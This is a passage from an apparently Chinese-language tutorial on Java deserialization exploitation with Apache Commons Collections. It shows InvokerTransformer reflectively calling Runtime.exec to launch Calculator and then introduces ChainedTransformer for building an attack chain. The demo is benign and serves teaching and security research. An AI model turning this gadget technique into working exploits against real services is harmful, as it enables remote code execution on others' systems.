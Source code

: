 ```java
                //异常处理
        }
    }
}
```

通过`InvokerTransformer`类实现命令执行
```java
package com.serialize;

import org.apache.commons.collections.functors.InvokerTransformer;

/**
 * Created by dotast on 2022/9/1 10:34
 */
public class TransformerTest {
    public static void main(String[] args){
        String cmd = "open -a Calculator.app";
        InvokerTransformer invokerTransformer = new InvokerTransformer(
                "exec",new Class[]{String.class}, new Object[]{cmd}
        );
        invokerTransformer.transform(Runtime.getRuntime());
    }
}
```

![image-20220901105358610](images/image-20220901105358610.png)

在现实场景下很难通过`InvokerTransformer.transform`传入`Runtime.getRuntime()`对象完成命令执行，因此我们需要学习下一个接口实现类`ChainedTransformer`来构造我们的攻击链。
### ChainedTransformer
